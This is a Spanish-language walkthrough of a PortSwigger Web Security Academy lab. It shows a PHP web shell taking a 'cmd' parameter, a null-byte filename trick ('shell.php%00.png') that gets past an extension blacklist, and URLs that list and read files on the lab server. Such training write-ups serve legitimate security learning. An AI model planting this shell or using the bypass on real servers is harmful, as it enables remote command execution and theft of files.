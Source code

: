 ```yaml
---
title: File Upload Vulnerabilities Lab 5
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via obfuscated file extension
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-5/Portswigger.png
---
```


## Skills

- Web shell upload via obfuscated file extension

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser `eludida` usando una `clásica técnica` de `ofuscación`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite, el payload va a ser `shell.php%00.png`, las versiones de php inferiores a la 5.4 son vulnerables a null byte injection `%00`, lo que hace que ignore lo que hay detrás de él y no se interprete

```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.png"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Vemos que el archivo php se ha subido correctamente y que seha subido con el nombre shell.php ignorando lo que hay detrás del null byte `%00`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_6.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_7.png)

Si accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php%00.png?cmd=whoami` vemos que nos da un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_8.png)

Sin embargo, sin accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que nos ejecuta el comando

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_10.png)

Obtenemos el contenido del archivo secret `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_12.png)
